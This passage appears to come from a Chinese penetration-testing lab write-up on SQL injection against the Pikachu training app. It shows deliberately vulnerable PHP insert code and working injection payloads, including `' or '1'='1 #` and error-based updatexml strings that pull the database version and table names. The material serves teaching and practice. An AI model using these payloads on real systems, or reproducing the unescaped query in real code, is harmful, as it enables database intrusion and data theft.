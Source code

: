 **漏洞利用**

参照代码，这里使用字符型且没有使用相似查询，然而这个不重要，关键是构造一个闭合

payload: `' or '1' = '1 #`

### "insert/update" 注入

insert 注入，就是前端注册的信息最终会被后台通过 insert 这个操作插入数据库，后台在接受前端的注册数据时没有做防 SQL 注入的处理，导致前端的输入可以直接拼接 SQL 到后端的 insert 相关内容中，导致了 insert 注入。

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

**漏洞利用**

在上面搜索型注入中演示了 select 类报错获取信息,insert 和 update 其实类似

先测 insert 注入，在注册页面输入 `'` ，来查看后端反馈的观察，通过观察报错了解到提交的内容在后台参与了拼接。

![image](../../../img/渗透/实验/pikachu/45.png)

版本 `1' or updatexml(1,concat(0x7e,(version())),0) or'')#`

表名 `1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#`

![image](../../../img/渗透/实验/pikachu/46.png)
